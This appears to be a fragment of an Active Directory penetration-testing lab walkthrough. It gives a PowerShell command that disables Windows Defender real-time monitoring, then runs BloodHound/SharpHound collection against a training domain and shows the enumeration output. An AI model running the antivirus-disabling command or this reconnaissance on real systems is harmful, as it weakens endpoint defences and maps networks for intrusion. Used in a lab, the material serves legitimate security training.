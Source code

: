 ```
```
❌

![Windows Defender real-time protection turn off](./assets/screenshots/learning_objectives_windows_defender_turnoff.png)

<🔄 Alternative Step🔄>

`Set-MpPreference -DisableRealtimeMonitoring $true`

</🔄 Alternative Step🔄>

`Invoke-BloodHound -CollectionMethod All`:
```
-----------------------------------------------
Initializing SharpHound at 2:40 AM on 2/21/2025
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain DOLLARCORP.MONEYCORP.LOCAL using path CN=Schema,CN=Configuration,DC=moneycorp,DC=local
[+] Cache File Found! Loaded 339 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 79 MB RAM
Status: 178 objects finished (+178 19.77778)/s -- Using 106 MB RAM
Enumeration finished in 00:00:09.4358018
Compressing data to C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\20250221024052_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 2:41 AM on 2/21/2025! Happy Graphing!
```
